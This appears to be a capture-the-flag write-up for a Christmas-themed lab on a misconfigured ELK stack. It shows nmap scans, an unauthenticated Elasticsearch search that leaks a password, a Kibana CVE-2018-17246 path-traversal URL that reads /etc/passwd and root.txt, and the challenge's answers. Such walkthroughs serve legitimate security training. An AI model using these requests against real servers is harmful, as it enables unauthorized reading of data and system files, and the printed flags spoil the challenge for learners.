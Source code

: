 ## Introduction

> McDatabaseAdmin has been trying out some new storage technology and came across the ELK stack(consisting of Elastic Search, Kibana and Log Stash).  
> The Christmas Monster found this insecurely configured instance and locked McDatabaseAdmin out of it. Can McSkidy help to retrieve the lost data?  
> While this task does not have supporting material, here is a general approach on how to go about this challenge:

-	Scan the machine to look for open ports(specific to services running as well)  
-	as with any database enumeration, check if the database requires authentication. If not, enumerate the database to check the tables and records  
-	for other open ports, identify misconfigurations or public exploits based on version numbers


## Questions

> Find the password in the database

td:lr Answer: **9Qs58Ol3AXkMWLxiEyUyyf**

> Read the contents of the /root.txt file

td:lr Answer: **someELKfun**

===============================================================================

First let's deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we can do a nmap scan:

`nmap <ip> -T4` - will reveal open ports 22, 111, 8000, 9200  
`nmap <ip> -T4 -p 22,111,8000,9200 -A`

![](./res/pic1.png)

port 9200 is for elasticsearch. so we can try to enumerate elasticsearch database using `curl` command, and a particular query in mind to search for password:

`curl -XGET 'http://<ip>:9200/_search?q=password'`

![](./res/pic2.png)

And we get our answer: **9Qs58Ol3AXkMWLxiEyUyyf**

`nmap <ip> -p- -T4` - will reveal open ports 22, 111, 5601, 7223, 8000, 9200, 9300  
`nmap <ip> -p22,111,5601,7223,8000,9200,9300 -T4 -A`

You will get a long list of information from several open ports:

![](./res/pic3.png)

What we want to focus on port 5601, used by Kibana, which has a public vulnerability associated to Local File Inclusion (LFI):

[CVE-2018-17246](https://www.cvedetails.com/cve/CVE-2018-17246/)

It appears that we can do a path traversal technique to read any file within the Kibana server.  
So to test that the path traversal technique works, let's attempt to look at /etc/passwd

`<ip>:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd`

To see the results, we need to navigate to `<ip>:8000/kibana-log.txt`:

![](./res/pic4.png)

It works! we manage to see the content of `/etc/passwd`, which means we should be able to use the same technique to retrieve the content of root.txt. If it's not at the base home directory, we might need to trial and error and find the right directory. But let's try the base first:

`<ip>:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../root.txt`

Let's refresh the logs and see what we get:

![](./res/pic5.png)

Yes we got the flag! Answer: **someELKfun**









